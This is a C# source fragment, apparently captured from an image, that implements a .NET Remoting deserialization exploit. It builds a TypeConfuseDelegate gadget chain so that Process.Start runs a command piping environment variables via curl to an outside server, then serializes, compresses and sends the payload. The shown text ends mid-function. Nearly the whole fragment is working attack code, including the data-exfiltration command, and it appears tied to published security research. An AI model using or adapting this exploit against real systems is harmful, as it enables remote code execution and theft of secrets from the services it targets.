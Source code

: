 ```csharp

	public static void DecryptResponse(Stream responseStream)
	{
		// Code to decrypt the response
	}

	public static object GeneratePayload()
	{
		// https://www.modzero.com/modlog/archives/2020/06/16/mz-20-03_-_new_security_advisory_regarding_vulnerabilities_in__net/index.html
		// https://github.com/modzero/MZ-20-03_PoC_NetRemoting/blob/master/RemotingExploit/Program.cs
		Comparison<string> c = new Comparison<string>(string.Compare);
		var c2 = Func<string, string, int>.Combine(c, c);
		TypeConfuseDelegate(c2, new Func<string, string, Process>(Process.Start));
		Comparison<string> c3 = (Comparison<string>)c2;

		// Response returned is an embedded exception
		// Unable to cast object of type 'System.Collections.Generic.SortedSet`1[System.String]' to type 'System.Runtime.Remoting.Messaging.IMessage'
		// Deserialization will still happen and command will execute regardless of the above exception
		// Exfil env vars
		SortedSet<string> s = new SortedSet<string>(new string[] { "cmd", "/c SET | curl -X POST --data-binary @- http://remoteserver.stratumsecurity.com/" });
		FieldInfo fi = typeof(SortedSet<string>).GetField("comparer", BindingFlags.NonPublic | BindingFlags.Instance);
		fi.SetValue(s, Comparer<string>.Create(c3));
		return s;
	}

	// TypeConfuseDelegate Gadget
	public static void TypeConfuseDelegate(Delegate handler, Delegate target)
	{
		FieldInfo fi = typeof(MulticastDelegate).GetField("_invocationList", BindingFlags.NonPublic | BindingFlags.Instance);
		object[] invoke_list = handler.GetInvocationList();
		invoke_list[1] = target;
		fi.SetValue(handler, invoke_list);
	}

	public static Stream GenerateBinaryStream()
	{
		BinaryFormatter bf = new BinaryFormatter();
		MemoryStream requestStream = new MemoryStream();
		bf.Serialize(requestStream, GeneratePayload());
		requestStream.Position = 0;
		return requestStream;
	}

	public static void SendTamperedMessage(string cookie)
	{
		byte[] array;

		using (Stream requestStream = GenerateBinaryStream())
		{
			OpenMemoryStream openMemoryStream = new OpenMemoryStream();
			DeflaterOutputStream val = new DeflaterOutputStream((Stream)openMemoryStream, new Deflater(6));
			requestStream.CopyFromCurrentPosition((Stream)(object)val);
			val.Finish();
			((Stream)(object)val).Flush();
			openMemoryStream.Flush();
```